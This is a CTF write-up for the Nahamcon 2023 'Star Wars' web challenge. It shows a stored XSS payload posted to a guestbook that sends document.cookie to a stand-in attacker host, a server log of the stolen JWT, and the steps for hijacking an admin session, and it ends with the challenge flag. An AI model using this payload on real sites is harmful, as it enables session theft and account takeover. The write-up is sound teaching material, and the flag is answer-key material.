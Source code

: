```yaml
---
name: Star Wars (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Star Wars (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Star Wars

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=18 "Nahamcon CTF 2023: Star Wars (Web)")

## Description

> If you love Star Wars as much as I do you need to check out this blog!

## Solution

Can't create an account or sign up as admin.

Register as `cat` and find a guestbook, provide XSS payload to steal cookie.

{% code overflow="wrap" %}
```html
<script>
    new Image().src =
        "http://ATTACKER_SERVER.ngrok-free.app?c=" + document.cookie;
</script>
```
{% endcode %}

Request is made to our server containing cookies, including a [JWT](https://youtu.be/GIq3naOLrTg)

{% code overflow="wrap" %}
```bash
127.0.0.1 - - [15/Jun/2023 23:09:24] "GET /?c=ss_cvr=3ad69c49-d9aa-4fb0-b6f1-5c38324adf3b|1686862282337|1686862282337|1686862282337|1;%20x-wing=eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE HTTP/1.1" 200 -
```
{% endcode %}

We replace the session cookie with `eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE` and receive a flag!

Flag: `flag{a538c88890d45a382e44dfd00296a99b}`
